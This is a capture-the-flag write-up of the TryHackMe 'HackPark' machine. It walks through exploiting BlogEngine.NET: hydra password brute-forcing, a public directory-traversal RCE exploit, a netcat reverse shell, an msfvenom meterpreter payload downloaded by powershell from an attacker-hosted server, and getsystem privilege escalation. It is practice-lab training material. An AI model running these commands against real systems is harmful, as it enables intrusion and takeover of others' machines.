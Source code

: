 [<- home](/)

[<- home](/)

# HackPark [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

**NOTE:** <sub>_I purposefully skipped the walkthrough to try to exploit this machine myself. It had other ideas, used other exploits, used other metasploit methodology, everything is different in the walkthrough, so a lot of questions from the walkthrough aren't answered here, instead I simply focused on the flags._</sub>

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.244.249
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

This gave us two ports `80` and `3389` running on this machine. Let's browse the website:

```
firefox $targ3t
```

It seems to be a blog powered by something called [**BlogEngine.NET**](https://blogengine.io). It has one post, one comment, a contact page, a login interface and not much else. 

I'm going to put this through a `gobuster` and `feroxbuster` in that order.

```
gobuster dir -u http://$targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.scan
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

There are groups of routes that route to the same thing, there appears to be a search engine on the site, which I either haven't noticed while browsing or it is indeed not linked anywhere. I am going to terminate `gobuster` scan, because it takes a long time and finds a lot of the same stuff.

`feroxbuster` seems to find a lot of things related to the engine this blog is built with like scripts, themes and such.

I am going to try to find a public exploit for this engine:

```
searchsploit blogengine
```

Quite a bit of results. The website's source code indicates this is a `BlogEngine 3.3.6.0` for which we have a number of exploits ranging from XML Injection to Path Traversal. I'll try one of those:

```
cp /usr/share/exploitdb/exploits/aspx/webapps/47011.py exp.py
head -20 exp.py
```

This is the description:

```
#BlogEngine.NET is vulnerable to an Directory Traversal on `/api/upload` which allows a RCE through the `theme` parameter.
```

Let's check if there is such a path there at all:

```
firefox $targ3t/api/upload
```

There seems to be something! Based on the exploit's description we need to start a reverse shell somewhere and then launch the exploit, so:

```
nc -lvnp 9876
```

And then let's run the exploit:

```
python2 exp.py -t $targ3t
```

Looks like it relies on a proxy connection `127.0.0.1:8080` which is a **Burp Suite** proxy. I'll start Burp Suite and run the exploit again, so that we can see in the Burp Suite's Proxy tab, what the exploit is trying to do.

![Burp Suite Screenshot](burp_screenshot.png "Burp suite proxy data")

Essentially, it is trying to use `admin:admin` credentials to log into the admin panel and then do a path traversal on `/api` path, which doesn't work, because those credentials are incorrect, hence Status Code `302`. 

Time to use hydra:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $targ3t http-post-form "/Account/login.aspx:__VIEWSTATE=*...*__EVENTVALIDATION=*...*&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed"
```

There are hashes omitted in the first two parameters of this POST request, and we cracked the password. Apparently it's `1qaz2wsx`.

Let's try and log in:

```
firefox $targ3t/Account/login.aspx
```

Let's run the exploit again, this time indicating username and password:


```
python exp.py -t $targ3t -l <MY IP>:9876 -u admin -p 1qaz2wsx
```

And we have a reverse shell! Let's convert it to meterpreter. First, generate payload:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

Then, start a python server:

```
python -m http.server 8000
```

Then in our last shell, download the payload:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

Doesn't quite work, let's navigate somewhere, where we can download files:

```
cd C:\Users\Public\Downloads
```

And this time it worked. Now let's start a handler in metasploit:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ATTACKER IP>
set LPORT <ATTACKER PORT>
run
```

And back in our shell:

```
powershell "Start-Process 'shell-name.exe'"
```

And we got a meterpreter shell. Let's try to escalate some privileges through meterpreter:

```
load priv
getsystem
```

Seems like it worked, let's see if we can enter the Desktop of the user `jeff`:

```
cd c:/users/jeff/Desktop
```

And it's there:

```
cat user.txt
```

That's our first flag. On to the next one:

```
cd c:/Users/Administrator/Desktop
cat root.txt
```

We got both flags!
